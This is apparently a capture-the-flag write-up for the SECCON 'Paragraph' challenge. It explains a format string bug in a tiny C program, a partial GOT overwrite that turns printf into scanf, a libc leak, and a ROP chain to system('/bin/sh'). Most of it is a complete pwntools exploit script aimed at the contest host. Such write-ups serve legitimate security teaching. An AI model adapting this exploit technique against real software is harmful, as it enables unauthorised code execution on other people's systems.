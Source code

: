 # Paragraph

The program is extremely small:

```c
#include <stdio.h>

int main() {
  char name[24];
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  printf("\"What is your name?\", the black cat asked.\n");
  scanf("%23s", name);
  printf(name);
  printf(" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted %s warmly.\n", name);

  return 0;
}
```
It is compiled without PIE, without stack canaries, and with partial RELRO.

There is an obvious FSB in the second printf. The question is just, how to abuse it.
We can use the FSB to leak a libc address and also overwrite `printf@got` to redirect the last function call in the program.

We overwrite `printf` with `scanf`. The final call, now `scanf`, can be abused to cause a buffer overflow. 

Luckily `printf` and `__isoc99_scanf` are very close in libc:
```c
$3 = {<text variable, no debug info>} 0x78bffc2a10f0 <printf>
$4 = {<text variable, no debug info>} 0x78bffc2a0e00 <__isoc99_scanf>
```

Thus, by only overwriting 2 bytes, we have a `1/16` chance of overwriting `printf` with `scanf`.

If this succeeds, we can read too much data into the `name` variable to overwrite the return address. We then simly use a `system("/bin/sh")` ROP chain to get a shell.

The final exploit script:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'chall')

host = args.HOST or 'paragraph.seccon.games'
#host = args.HOST or '127.0.0.1'

port = int(args.PORT or 5000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b* 0x404100
continue
'''.format(**locals())

# -- Exploit goes here --

'''
# used to leak pointers and determine initial offset for %n attack
for i in range(40):
    io = start()
    print("Trying %d" % i)
    io.sendline(f'AAAABBBB.%{i}$p')
    print(io.recvall())
    io.close()
'''

libc = ELF('libc.so.6')
while True:
    try:
        io = start()
        
        # overwrite printf with scanf
        '''
        $3 = {<text variable, no debug info>} 0x78bffc2a10f0 <printf>
        $4 = {<text variable, no debug info>} 0x78bffc2a0e00 <__isoc99_scanf>
        '''

        payload = b'%33$p%3570c%8$hn' + p64(exe.got.printf)
        payload = payload[:-1]
        
        
        io.send(payload)
        io.recvuntil(b'asked.\n')
        leak = io.recv(14)
        log.info(f'Leaked ld address: {leak}')
        # libc offset 0x24f2e0 on remote
        libc.address = int(leak, 16) - 0x24f2e0
        log.info(f'libc base address: {hex(libc.address)}')
        
        time.sleep(1)
        
        rop = ROP(libc)
        rop.raw(rop.find_gadget(['ret']))
        rop.system(next(libc.search(b'/bin/sh\x00')))
        log.info(f'ROP chain: {rop.dump()}')
        
        payload2 = b' answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted'
        payload2 += b'A'*40 + rop.chain()
        io.sendline(payload2) 
        # there is some bug in my script, so I just send it twice. Probably missing a newline somewhere
        io.sendline(payload2)
        
        io.sendline(b'ls -al')
        print(io.recv(10))
        
        io.interactive()
    except EOFError:
        io.close()
        pass
```

